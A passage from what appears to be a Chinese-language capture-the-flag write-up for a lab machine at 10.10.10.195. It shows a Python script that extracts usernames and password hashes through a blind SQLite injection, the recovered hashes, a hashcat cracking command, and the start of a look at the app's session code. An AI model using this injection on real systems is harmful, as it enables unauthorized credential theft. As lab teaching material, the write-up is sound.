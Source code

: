 ```
)
if "not authorized" in resp.text:
resp = requests.post(
"http://10.10.10.195/submitmessage",
data=f"message='||(select username from users where username =
'{res + c}' and load_extension('a'))||'",
headers={"Content-Type": "application/x-www-form-urlencoded"},
)
if "not authorized" in resp.text:
print(f"\r[+] Found user: {res}{c.ljust(20)}")
brute_pass(res + c)
brute_user(res + c)
def brute_pass(user):
password = ""
for i in range(64):
for c in string.hexdigits:
sys.stdout.write(f"\r[+] Password: {password}{c}")
sys.stdout.flush()
resp = requests.post(
"http://10.10.10.195/submitmessage",
data=f"message='||(select secret from users where username =
'{user}' and substr(secret, {i+1},1) = '{c}' and load_extension('a'))||'",
headers={"Content-Type": "application/x-www-form-urlencoded"},
)
if "not authorized" in resp.text:
password += c
break
print(f"\r[+] Found secret: {password.ljust(20)}")
brute_user("")
print("\r" + "".ljust(80))
```

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWaicklAS2T2URph3msv2bL7St9MN1omcjDFHicvQGp1aEHW6RKH9vloXHxGuysySIedBZQpGMgAYiajCw/640?wx_fmt=png)

获取 hash 如下：  

```
admin:f1fc12010c094016def791e1435ddfdcaeccf8250e36630c0bc93285c2971105
guest:84983c60f7daadc1cb8698621f802c0d9f9a3c3c295c810748fb048115c186ec
```

尝试爆破

```
hashcat -m 1400 ./hashes /content/wordlists/rockyou.txt --user
```

未爆破成功 admin 的密码

2. 分析 Session 的产生机制

create_session 代码

```
def create_session(data):
""" Create session based on dict
@data: {"key1":"value1","key2":"value2"}
return "key1=value1;key2=value2;"
"""
session = ""
for k, v in data.items():
session += f"{k}={v};"
return session.encode()
```
